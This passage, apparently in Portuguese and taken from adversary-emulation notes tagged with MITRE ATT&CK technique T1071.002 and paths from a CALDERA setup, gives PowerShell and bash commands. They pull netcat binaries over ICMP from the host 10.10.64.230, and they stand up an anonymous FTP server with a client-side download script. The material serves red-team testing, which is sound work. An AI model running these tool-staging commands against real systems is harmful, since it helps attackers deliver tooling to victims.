       - Executar no cliente: 
        ```powershell
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_curl.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_curl.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_curl.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_certutil.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_certutil.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_certutil.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_bitsadmin.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_iwr.exe;
        }
        ```

    - FTP [[`Command-and-control:T1071.002:File Transfer Protocols`](https://attack.mitre.org/techniques/T1071/002/)]
      - Executar no servidor: 
        ```bash
        cd ~/Downloads/tools/ICMP-TransferTools/files && python3 -m pyftpdlib -p 8080
        ```
      - Executar no cliente: 
        ```powershell
        $ftpServer = "ftp://10.10.64.230:8080/";
        $user = "anonymous";
        $password = "anonymous";
        $remotePath = "file_ftp.txt";
        $localPath  = "$env:TMP\caldera\downloads\file_ftp.txt";

        $ftpRequest = [System.Net.FtpWebRequest]::Create("$ftpServer$remotePath");
        $ftpRequest.Credentials = New-Object System.Net.NetworkCredential($user,$password);
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::DownloadFile;
        $ftpRequest.UseBinary = $true;
        $ftpRequest.KeepAlive = $false;
        $ftpRequest.Timeout = 60000;

        $ftpResponse = $ftpRequest.GetResponse();
        $ftpStream = $ftpResponse.GetResponseStream();

        $localFile = New-Object System.IO.FileStream($localPath, [System.IO.FileMode]::Create);
        $ftpBuffer = New-Object byte[] 1024;
        $read = 0;
        while (($read = $ftpStream.Read($ftpBuffer, 0, 1024)) -gt 0)
        {
            $localFile.Write($ftpBuffer, 0, $read)
        };
        $localFile.Close();
        $ftpStream.Close();
        $ftpResponse.Close();
        ```
